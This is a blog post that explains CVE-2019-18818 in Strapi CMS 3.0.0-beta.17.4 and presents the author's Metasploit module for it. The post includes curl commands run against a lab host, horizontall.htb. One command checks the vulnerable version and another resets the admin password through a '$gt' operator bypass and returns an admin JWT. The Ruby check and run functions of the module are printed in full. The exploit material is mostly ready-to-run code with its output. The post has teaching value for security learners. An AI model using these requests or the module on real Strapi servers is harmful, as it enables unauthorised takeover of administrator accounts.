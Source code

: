 ```yaml
---
title: "CVE-2019-18818 (Metasploit) + POC"
layout: single
excerpt: "Strapi CMS version 3.0.0-beta.17.4 mishandles password resets, allowing an attacker to take control of a privileged account, so I have developed an exploit module in Metasploit and teach you how to exploit this vulnerability in a practical way."
header:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/69093629/153461632-ddd95721-79b0-4446-90e8-9bb5ef77a0d9.jpg"
  teaser_home_page: true
  icon: 
categories:
  - Vulnearabilities
tags:
  - CVE
  - Set Password
  - Metasploit
---
```


<p align="center">
<img src="https://user-images.githubusercontent.com/69093629/153460626-f2c25ef3-7e30-4f91-b1da-fe14a064fba1.png">
</p>

I have recently started creating helpers and exploits for the *Metasploit Framework* and I would like to share my experience on my first helper for CVE-2019-18818.

Before we start explaining what the module consists of, a brief summary of what *CVE-2019-18818* is. This vulnerability was published in the [*NATIONAL VULNERABILITY DATABASE*](https://nvd.nist.gov/vuln/detail/CVE-2019-18818) (NVD) on July 11, 2019, this flaw mishandles password reset in `packages/strapi-admin/controllers/Auth.js` and `packages/strapi-plugin-users-permissions/controllers/Auth.js` in Strapi 3.0.0-beta.17.4, therefore this allows changing the password of a privileged user and also guarantees unauthorized access to the CMS, hence it was classified as CRITICAL due to its severity and easy exploitation.

As if that were not enough, some time later, on December 5, 2019, CVE-2019-19609 was found in Strapi 3.0.0-beta.17.8, unlike CVE-2019-18818, this allowed the execution of arbitrary code by an authenticated user.

In addition, using Strapi CMS beta on outdated versions gives an attacker the opportunity to compromise you.

Now, how is it exploited? Well, it is very easy, we will send JSON data to the server to a specific route of the CMS and we will gain access as a legitimate user by dumping a JSON Web Token.

First, we need to check if the version being used in Strapi is vulnerable, that is, prior to 3.0.0-beta.17.5, so we can send JSON data through a GET request to the server in '/admin/init' specifying in the `Content-Type` header that we are sending data in JSON, we can do this in the following way with `curl`.

```bash
┌──(root💀kali)-[/home/kali]
└─$ curl -X GET http://api-prod.horizontall.htb/admin/init -H 'Content-type: application/json' -s | jq                        
{                                                                                                                             
  "data": {                                                                                                                   
    "uuid": "a55da3bd-9693-4a08-9279-f9df57fd1817",                                                                           
    "currentEnvironment": "development",                                                                                      
    "autoReload": false,                                                                                                      
    "strapiVersion": "3.0.0-beta.17.4"                                                                                        
  }                                                                                                                           
} 
```
In the Metasploit helper module, implement this functionality in the `check` function.

```ruby
def check
    res = send_request_raw({ 'uri' => '/admin/init' })
    version = JSON.parse(res.body) 

    if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'
      return Exploit::CheckCode::Vulnerable
    else
      return Exploit::CheckCode::Safe
    end    
end
```

I use `send_request_raw` to send a GET request, then I parse the JSON data from the server response with `JSON.parse` and store it in the `version` variable, I define a condition, `if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'`, I extract strapiVersion from the version variable that contains the version and make a comparison, if strapiVersion is equal to '3.0.0-beta.17.4', then the server is vulnerable, so I return `return Exploit::CheckCode::Vulnerable`, otherwise I return `return Exploit::CheckCode::Safe`.

So far this has been to verify that the server is vulnerable, now let's move on to exploiting the vulnerability.

We will send a POST request to `/admin/auth/reset-password` and specify the following data in JSON:

```json                                                                                           
{
  "code": {"$gt:0"}, # Bypass WAF
  "password": "Newpass123", # Nueva contraseña
  "passwordConfirmation": "Newpass123" # Confirmation new password
}
```
We can do it with `curl` like this:

```bash
┌──(root💀kali)-[/home/kali]
└─# curl -X POST -H 'Content-type: application/json' http://api-prod.horizontall.htb/admin/auth/reset-password -d '{"code": {"$gt":0},"password":"pas","passwordConfirmation":"pas"}' -s | jq
{
  "jwt": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NDQ0MjI0LCJleHAiOjE2NDcwMzYyMjR9.il6oFUjKXH7ke_uOVqM99quXU9qOyfKKY30ihgG21I4",                                                                                   
  "user": {
    "id": 3,
    "username": "admin",
    "email": "admin@horizontall.htb",
    "blocked": null
  }
}
```
> The response shows us a valid JWT of the admin user that can be used later.

This would be the code in the Metasploit module.

```ruby
def run
    json_body = { 'code' => {'$gt' => 0},
      'password' => datastore['NEW_PASSWORD'],
      'passwordConfirmation' => datastore['NEW_PASSWORD'] }

    res = send_request_cgi({
      'method' => 'POST',
      'uri' => '/admin/auth/reset-password',
      'ctype' => 'application/json',
      'data' => JSON.generate(json_body)
    })

    print_status("Changing password...")
    json_format = JSON.parse(res.body)
    jwt = json_format['jwt']

    if res.code == 200
      print_good("Password changed successfully!")
      print_good("USER: admin")
      print_good("PASSWORD: #{datastore['NEW_PASSWORD']}")
      print_good("JWT: #{jwt}")
    else
      fail_with(Failure::NoAccess"Could not change admin user password")
    end
  end
```

I start by defining my JSON data in Ruby format concatenating the user data, I save it in the variable `json_body` and send a POST request using `send_request_cgi`, I generate my valid JSON data with `JSON. generate(json_body)` in the request, I save the request in the variable `res` and parse the data with `JSON. parse(res.body)`, I store it in `json_format` and then I save the JWT parameter that contains the JSON Web Token of the admin user in the variable `jwt = json_format['jwt']` and I do a comparison, `if res. code == 200`, that is, if the response of the status code on the server side is 200 OK, it means that the password was changed successfully and it shows you the new password, user and JWT of the admin user, otherwise I show *Could not change admin user password*.

Exploit download: [ExploitDB](https://www.exploit-db.com/exploits/50716) or [Packet Storm](https://packetstormsecurity.com/files/165896/Strapi-CMS-3.0.0-beta.17.4-Privilege-Escalation.html)

# FEW
<p align="center">
<script id="asciicast-EXk92PvUUB0M1xZDXmTdyZV1v" src="https://asciinema.org/a/EXk92PvUUB0M1xZDXmTdyZV1v.js" async></script>
</p>

